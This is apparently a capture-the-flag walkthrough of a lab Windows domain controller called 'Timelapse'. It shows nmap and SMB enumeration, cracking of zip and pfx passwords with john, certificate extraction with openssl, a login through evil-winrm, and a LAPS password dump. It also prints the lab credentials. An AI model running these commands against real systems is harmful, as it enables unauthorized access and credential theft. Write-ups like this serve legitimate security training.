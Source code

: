 # Nmap Scan

nmap -sC -sV 10.10.11.152 -o nmap/timelapse  -v -e tun0

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-20 03:04:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m01s
| smb2-time: 
|   date: 2022-04-20T03:04:54
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required


## Open Ports

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl



Add timelapse.htb to /etc/hosts

![image](https://user-images.githubusercontent.com/129129988/228107977-f15d0ee4-4d38-4988-944f-bb0233b247f9.png)

running masscan also revealed PORT     STATE SERVICE  VERSION 
5986/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 
|_http-title: Not Found 
| ssl-cert: Subject: commonName=dc01.timelapse.htb 
| Issuer: commonName=dc01.timelapse.htb 
| Public Key type: rsa 
| Public Key bits: 2048 
| Signature Algorithm: sha256WithRSAEncryption
 

(WinRM) 
is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:

• 5985/tcp (HTTP)
• 5986/tcp (HTTPS)

## Service Enumeration

We dont have a webserver running but we do have SMB on port 139.

smbclient -L \\\\10.10.11.152\\ 

![image](https://user-images.githubusercontent.com/129129988/228108158-548a409b-a6e4-49e9-840a-af342b969111.png)

Enurating the Shares Folders I found 2 other folder Dev, and Help Desk
smbclient \\\\10.10.11.152\\Shares

![image](https://user-images.githubusercontent.com/129129988/228108216-76e218b5-0f11-4f00-b6bd-e19d9ad4ada6.png)

Within the Dev folder 
![image](https://user-images.githubusercontent.com/129129988/228108258-c4e2548e-240f-4d8f-9d7d-ccfaaeeb3647.png)


We can see a winrm_backup.zip

using the command get we can download the zip file. 
![image](https://user-images.githubusercontent.com/129129988/228108449-833aae2a-1ef5-453f-a6f2-bce3922b05fc.png)


We can also download all the contents in the HelpDesk we might use it later on. 
![image](https://user-images.githubusercontent.com/129129988/228108482-b1f1a1da-f473-4a3b-a273-20c147840418.png)

it looks like just some documentation. 

As for the zip file looks like its password protected. 

![image](https://user-images.githubusercontent.com/129129988/228108525-f73d9ecf-2b63-41fc-b370-bcc9b4967e8d.png)


also we can see the contents on the file legacyy_dev_auth.pfx 
After googling a little pfk file 

![image](https://user-images.githubusercontent.com/129129988/228108562-7c81c74a-2145-4ec8-a988-8ee05980524a.png)

looks like there is a way to extract .crt and .key form the .pfx file. 
We can use John to crack the password for the zip file 

First use zip2john command to create a file that john can use to crack the password. 

 zip2john winrm_backup.zip > hashZipPassword 

![image](https://user-images.githubusercontent.com/129129988/228108593-ea9c2b88-e692-4b24-9239-6ed1ca218dc7.png)


Now we can crack the password. 

john --wordlist=/usr/share/wordlists/rockyou.txt hashZipPassword

![image](https://user-images.githubusercontent.com/129129988/228108625-10c0f64f-4cd6-4bc7-aba6-c9b2f2b85852.png)

As you can see The password to the zip file is supremelegacy.

![image](https://user-images.githubusercontent.com/129129988/228108679-f8ec1877-c2d1-4be8-bb08-4d3aba008016.png)


Wow that we have the data file lets try to extract the key and cert. 
This command can analyse the .pfx and dump the key. 
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]

So the .pfx file has an import password; After try the previous password this did not work. 

![image](https://user-images.githubusercontent.com/129129988/228108707-6b383091-06ef-480d-8282-793db338ef38.png)


john has alot of featuers one of which is the suffix 2john were we can crack pdf passwords as you saw zip and now pfx 
pfx2john legacyy_dev_auth.pfx > pfxPassword.txt

![image](https://user-images.githubusercontent.com/129129988/228108736-86427d12-77f1-4127-8cd6-e91d64e71a43.png)


Cracking the password for pfx  
john --wordlist=/usr/share/wordlists/rockyou.txt pfxPassword.txt 

![image](https://user-images.githubusercontent.com/129129988/228108768-40762d99-d89b-431f-82e2-c10005808df2.png)

Now we have the password for the pfx file. thuglegacy
We can learn more about the private key and public key here. 
https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/

MoreInfo - https://www.howtouselinux.com/post/pfx-file-with-examples


Using this new password, I obtained the private key file. 
Private.key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key


![image](https://user-images.githubusercontent.com/129129988/228108797-4ad57284-c7b8-42ac-9c6f-8240aa2b1c64.png)

![image](https://user-images.githubusercontent.com/129129988/228108823-25692306-bc56-4667-be40-3db0c57b8a4c.png)


Certificate.crt
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt

![image](https://user-images.githubusercontent.com/129129988/228108874-bd01b6bf-8953-489d-98aa-7117af58d3a3.png)


# Foothold
WinRM is on port 5986. We can use the evil-winrm tool to connect. 

evil-winrm -i 10.10.11.152 -S -c certificate.crt -k prv.key -p -u

![image](https://user-images.githubusercontent.com/129129988/228109055-980b9f4b-cce2-438e-8257-c0e73395006e.png)


The -S parameter refers to the ssl parameter connection, -c is the public key, -k is the private key, -p and -u are the username and password, respectively

Navigate to Desktop to get user.txt 

# Privesc to Root

Furthermore we have a couple of Users;
![image](https://user-images.githubusercontent.com/129129988/228109171-9240b154-9133-4703-9feb-362d6fc93cc7.png)

svc_deploy looks intresting, and legacyy

download winpeas inside the same directory you got a shell in using evil-winrm
Download Link:
https://github.com/carlospolop/PEASS-ng/releases/download/20220417/winPEASx64.exe

now type 
upload <winPeas_File>

![image](https://user-images.githubusercontent.com/129129988/228109207-e8f692a9-a860-4f78-a88e-6ee95e2b071e.png)


After further enumeration on the box, I found  ConsoleHost_history.txt in 
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine

![image](https://user-images.githubusercontent.com/129129988/228109227-84194fce-79d7-4dd3-8fd7-d41d5a3f2b0c.png)


view this we can see that we have another user named svc_deploy 
with the password: E3R$Q62^12p7PLlC%KWaxuaV
$c -port 5986 -usessl

Reffering back to the files that we downloaded it has a title LAPS; using a little bit of google I found that we can dump passwords for loacal Administrator is if we have access to username and password on domain. 
https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/
 
Google Search LAPS Meaning: 
"The Local Administrator  Password Solution (LAPS) provides a solution to this issue of using a  common local account with an identical password on every computer in a  domain. LAPS resolves this issue by setting a different, random password for the common local administrator account on every computer in the domain."

We can try to dump password for admin account, by dumping the LAPS
https://github.com/n00py/LAPSDumper

Inside the article we have the link to the github
clone the repository then 
python3 laps.py -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb

![image](https://user-images.githubusercontent.com/129129988/228109274-1221eb79-d399-4266-95dc-b59221493382.png)


You can see we have the updated hash:
4f6ot8,Tn%Iu2H91px}Kzu+4
password for Administrator

![image](https://user-images.githubusercontent.com/129129988/228109296-569d3f35-a053-41e3-8e7e-6ea716b557b9.png)

I found the rootFlag 

![image](https://user-images.githubusercontent.com/129129988/228109335-f0f81aef-f787-49dd-b29b-6507c935d340.png)

![image](https://user-images.githubusercontent.com/129129988/228109353-bf0629d5-8ba4-446c-8988-04138e761fb1.png)



